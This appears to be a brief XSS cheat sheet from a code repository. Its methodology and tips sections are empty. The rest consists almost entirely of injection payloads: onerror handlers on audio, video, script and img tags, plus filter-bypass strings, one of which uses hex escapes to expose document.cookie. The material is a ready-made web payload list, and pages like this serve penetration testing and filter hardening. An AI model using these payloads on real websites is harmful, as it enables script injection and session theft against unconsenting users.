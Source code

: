 
### 1.Methodology


### 2.Tips!


### 3.Payloads
```
<audio src=x onerror=alert(0)>
<video src=x onerror=alert(0)>
<script src=x onerror=alert(0)>
<img src=x onerror=alert`1`>
<img src=x onerror=confirm`1`>
```

#### 3.1 Filter Bypass
```
[1].map(alert)
(alert)(1)
javascript:setTimeout`\x64ocument.write\x28\x64ocument.\x63ookie\x29`
```
